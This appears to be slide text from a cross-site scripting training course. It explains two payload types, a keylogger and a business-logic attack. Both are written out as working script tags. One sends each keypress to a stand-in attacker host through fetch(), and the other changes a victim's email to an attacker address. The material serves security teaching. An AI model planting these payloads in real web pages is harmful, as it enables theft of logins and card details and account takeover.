

Key Logger:
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

Business Logic:
This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
<script>user.changeEmail('attacker@hacker.thm');</script>